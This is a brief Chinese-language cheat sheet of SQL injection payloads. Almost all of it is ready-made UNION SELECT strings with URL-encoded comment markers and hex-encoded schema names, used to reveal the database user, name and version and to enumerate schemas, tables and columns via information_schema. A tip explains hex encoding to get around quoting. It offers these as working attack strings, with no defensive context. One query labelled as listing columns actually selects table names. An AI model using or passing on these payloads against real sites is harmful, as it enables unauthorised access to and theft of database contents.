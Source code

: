 # 查询重要数据的sql语句



查询用户名，数据库名，数据库版本信息：

```sql
union select 1,2,(concat_ws(char(32,58,32),user(),database(),version())) %23
```

查询所有数据库名

```sql
union select 1,schema_name from information_schema.schemata
```

查询一个库中所有的表的名字

```sql
union select group_concat(char(32),table_name,char(32)) from information_schema.tables   where table_schema=0x7365637572697479  %23
```

注意。在系统自带的表中查东西，where后面的值应该是单引号包裹或者16进制编码，通常用16进制

```sql
union select 1,table_name from information_schema.tables where table_schema='my_db'
```

查询一个表中所有列的名字

```sql
union select group_concat(char(32),table_name,char(32)) from information_schema.COLUMNS   where table_schema=0x7365637572697479  %23

union select 1,column_name from information_schema.columns where table_schema='my_db'
```

